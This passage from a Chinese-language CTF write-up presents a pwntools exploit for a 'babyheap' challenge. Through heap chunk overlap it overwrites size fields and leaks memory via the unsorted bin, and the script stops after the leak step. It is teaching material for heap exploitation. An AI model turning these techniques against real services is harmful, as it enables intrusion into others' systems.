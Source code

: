 


## 三、exploit开发

exploit完全按照上面进行的漏洞利用分析开发，因此不多说，直接贴出对应exp：

```
from pwn import *
#ARCH SETTING
context(arch = 'amd64' , os = 'linux')
#r = process('./babyheap')
r = remote('127.0.0.1',9999)

#FUNCTION DEFINE
def new(size):
   r.recvuntil("Command: ")
   r.sendline("1")
   r.recvuntil("Size: ")
   r.sendline(str(size))

def edit(idx,size,content):
   r.recvuntil("Command: ")
   r.sendline("2")
   r.recvuntil("Index: ")
   r.sendline(str(idx))
   r.recvuntil("Size: ")
   r.sendline(str(size))
   r.recvuntil("Content: ")
   r.send(content)

def delet(idx):
   r.recvuntil("Command: ")
   r.sendline("3")
   r.recvuntil("Index: ")
   r.sendline(str(idx))

def echo(idx):
   r.recvuntil("Command: ")
   r.sendline("4")
   r.recvuntil("Index: ")
   r.sendline(str(idx))

#MAIN EXPLOIT

#memory leak
#step1
new(0x90) #idx.0 to unsorted bin
new(0x90) #idx.1 to unsorted bin
new(0x90) #idx.2 to unsorted bin
new(0x90) #idx.3 for protecting top_chunk merge
delet(1)
#step2
payload_expand = 'A'*0x90 + p64(0) + p64(0x141)
edit(0,len(payload_expand),payload_expand)
#step3
new(0x130)
#step4
payload_crrct = 'A'*0x90 + p64(0) + p64(0xa1)
edit(1,len(payload_crrct),payload_crrct)
#step5
delet(2)
#step6
echo(1)
r.recvuntil("Content: n")
```
